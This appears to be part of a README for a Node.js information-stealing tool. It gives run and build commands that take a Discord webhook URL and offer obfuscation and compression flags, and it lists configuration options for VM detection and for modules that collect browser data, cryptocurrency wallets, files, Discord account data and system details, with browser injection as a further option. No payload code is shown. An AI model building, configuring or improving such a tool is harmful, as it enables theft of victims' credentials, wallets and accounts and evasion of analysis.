 ### Running the Application

```bash
# Development mode
npm run dev

# Production mode
npm start

# Build executable
npm run build
```

### Building

```bash
# Basic build
node build/builder.js <webhook_url> <app_name>

# Advanced build with options
node build/builder.js <webhook_url> <app_name> --obfuscate --compress
```

## 🔧 Configuration Options

### Environment Variables

| Variable | Description | Default |
|----------|-------------|---------|
| `WEBHOOK_URL` | Discord webhook URL | `%WEBHOOK%` |
| `NODE_ENV` | Environment mode | `development` |
| `LOG_LEVEL` | Logging level | `INFO` |
| `ENABLE_BROWSERS` | Enable browser module | `true` |
| `ENABLE_DISCORD` | Enable Discord module | `true` |
| `ENABLE_VM_DETECTION` | Enable VM detection | `false` |
| `MAX_UPLOAD_SIZE` | Max file size for upload | `7MB` |

### Module Configuration

Each module can be enabled/disabled independently:

```javascript
modules: {
  enabled: {
    browsers: true,    // Browser data collection
    crypto: true,      // Cryptocurrency wallets
    files: true,       // File system scanning
    discord: true,     // Discord account data
    system: true,      // System information
    injection: false   // Browser injection
  }
}
```

